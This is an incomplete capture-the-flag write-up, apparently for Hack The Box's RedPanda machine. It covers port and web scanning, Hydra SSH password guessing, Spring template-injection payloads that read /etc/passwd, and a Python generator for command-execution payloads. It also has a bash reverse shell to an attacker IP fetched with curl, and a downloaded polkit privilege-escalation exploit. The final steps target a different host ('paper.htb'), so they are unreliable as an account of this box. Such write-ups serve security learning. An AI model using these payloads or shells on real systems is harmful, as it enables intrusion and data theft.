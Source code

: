 # RedPanda *INCOMPLETE*  
### A demonstration walkthrough of a pen test process using HTB's RedPanda with some normal dead ends as an example.  

#### Setup
/etc/hosts appended with "10.10.11.170 redpanda.htb"  
Firefox proxied via Zap, Zap proxied via Burp with intercept initially turned off  

Basic scan of all ports 
```
nmap -p- redpanda.htb
```
Shows ssh/22 and http/8080

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4  redpanda.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports redpanda.htb
nikto -h redpanda.htb:8080
```
Interesting Results (NMAP):  
- Running OpenSSH 8.2p1 and an unknown hhtp-proxy "Made by Spring Boot" in title  
Interesting Results (NIKTO):   
- /stats/ firectory discovered
- HTTP PUT and DELETE methods allowed  
- "content-disposition" header returned    

Browse for unlinked files/resources  
```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://redpanda.htb:8080/FUZZ | grep -wv 404 | grep 0000
```
POST allowed to redpanda.htb:8080/search
Confirm /stats/ responds to GET requests

**DEAD END:** Running OWASP ZAP only turned up vectors for attacking RedPanda clients.
**DEAD END:** Browsing site showed nothing interesting in source.
**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\nredpanda\napache\nwoodenk\ndamian' > redpanda.htb.usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > redpanda.htb.passwords
hydra -L redpanda.htb.usernames -P redpanda.htb.passwords -e nsr ssh://redpanda.htb
```

**DEAD END:**  Attempted various SQLi, XXE, and Command injection on search function

### SSTI
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.  

See [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) for further information.

We are provided with a list of payloads:
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
Some of the payloads didn't work, since some of the symbols (specificly #) are blacklisted by the server.

### Creating a RCE
The namp scan indicated the app is powered by "Spring Boot"  
Not being familar with Spring Boot, a Google found this good template [here](https://blog.hawkeyesecurity.com/2017/12/13/rce-via-spring-engine-ssti/)  
This returns /etc/passwd

Replace the blacklisted $ with #
```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
This confirms the user "woodenk" with the standard home directory; still no password.

Python program to convert the command we want into a string suitable for SSTI in RedPanda search
```
#!/usr/bin/python3

def main():

        command = "whoami" # Edit this line for acceptable SSTI encoding 
        convert = []

        for x in command:
            convert.append(str(ord(x)))
        
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % convert[0]

        for i in convert[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"

        print(payload)

if __name__ == "__main__":
    main()
```
`command = "whoami"` confirms the website is running as user woodenk
### USER FLAG SUCCESS!
`command = "cat /home/woodenk/user.txt"` provides the user flag

### Plan for escalation
Using SSTI: 1) Upload shell script to create reverse shell.  2) Envoke shell script

Host the following shell script on the attacking machine.  I prefer:  `python -m http.server 8000`
```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.ATTACKER.IP/9001 0>&1"
```
SSTI to upload script
`command = "curl 10.10.ATTACKER.IP:8000/shell.sh --output /tmp/shell.sh"`

Create netcat listener, then invoke uploaded shell script
`nc -mvlp 9001`

SSTI to invoke script
`command = "bash /tmp/shell.sh"`

# Try LinPEAS to find escalation
[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
```
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
scp linpeas.sh dwight@office.paper:linpeas.sh
```

Running linpeas.sh shows vulnerables to  CVE-2021-3560

```
curl https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py > exploit.py
scp exploit.py dwight@paper.htb:.
ssh dwight@paper.htb
```
```
python3 exploit.py
```

### ROOT SUCCESS!
